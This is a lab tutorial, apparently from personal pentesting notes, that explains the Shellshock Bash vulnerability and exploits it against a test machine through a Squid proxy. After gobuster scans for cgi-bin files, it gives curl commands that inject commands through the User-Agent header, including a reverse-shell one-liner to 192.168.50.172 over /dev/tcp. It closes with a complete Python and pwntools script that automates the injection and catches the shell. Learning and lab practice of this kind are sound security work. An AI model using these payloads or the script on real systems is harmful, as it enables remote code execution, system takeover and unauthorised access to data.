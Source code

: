 A **Shellshock** attack is a type of computer attack that exploits a vulnerability in the *Bash shell* on Unix and Linux-based operating systems. This vulnerability was discovered in 2014 and is considered one of the largest and most widespread attacks in the history of computing.

This vulnerability in Bash allows attackers to execute malicious commands on the affected system, allowing them to take control of the system and access sensitive information, modify files, install malware, etc.

The Shellshock vulnerability occurs in the Bash command interpreter, which is used by many Unix and Linux operating systems to execute shell scripts. The problem lies in the way Bash handles environment variables. Attackers can inject malicious code into these environment variables, which Bash executes without questioning their origin or content.

Attackers can exploit this vulnerability through different attack vectors. One of them is through the *User-Agent*, which is the information that the web browser sends to the web server to identify the type of browser and operating system being used. Attackers can manipulate the User-Agent to include malicious commands, which the web server will execute upon receiving the request.

# Example

----
> Caution: For this example we are going to use the same lab as in the [[SQUID Proxies - Enumeration and exploitation]] example, so before continuing proceed with that lab.
----

Before continuing with the example, let's assume that the IP of the *victim* machine is *192.168.50.214* and the port where the [[SQUID Proxies - Enumeration and exploitation]] is located is *3128*.

We are going to do a directory scan with **gobuster**, but this time we are going to add the *--add-slash* parameter. This parameter is important because it adds a slash at the end of the directories it finds and it is possible to find more directories that way:

```bash
gobuster dir -u http://192.168.50.214 --proxy http://192.168.50.214:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

After scanning we found a directory called *cgi-bin/*.

----
> Normally, if you find a **cgi-bin/**, it may be possible to test a *ShellShock*.
----

When we find a *cgi-bin/* we are interested in seeing files with certain *extensions* as well as *without the extension*:

```bash
gobuster dir -u http://192.168.50.214 --proxy http://192.168.50.214:3128/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

We have found the *status* file, which we will use for exploitation:

```bash
# We need to specify the absolute path of the binaries we want to run
curl http://192.168.50.214/cgi-bin/status --proxy http://192.168.50.214:3128 -H "User-Agent: () { :; }; /usr/bin/whoami"

# In case it does not give us what we want, we can put echos before (one and sometimes even two)
curl http://192.168.50.214/cgi-bin/status --proxy http://192.168.50.214:3128 -H "User-Agent: () { :; }; echo; /usr/bin/whoami"

# We can run an one-liner Reverse Shell as well
curl http://192.168.50.214/cgi-bin/status --proxy http://192.168.50.214:3128 -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.50.172/443 0>&1'"
```

Now we are going to create a *Python* script to automate the *ShellShock* attack:

```python
#!/usr/bin/python3

import requests
import sys
import signal
import threading

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# It is the same to reference localhost or the IP of the machine when we are going through the SQUID Proxy.
main_url = "http://127.0.0.1/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.50.214:3128'}
lport = 443

def shellshock_attack():
    headers = { 'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.50.172/443 0>&1'" }

    requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
    try:
	    # We create a thread with the function we want to run in the background
        threading.Thread(target=shellshock_attack, args=()).start()
    except Exception as e:
        log.error(str(e))

	# We are listening for 20 seconds waiting for a new connection to be established
    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("Unable to establish connection")
        sys.exit(1)
    else:
        shell.interactive()
```

The *ShellShock* vulnerability is not widely seen, but can occur on *very old machines*.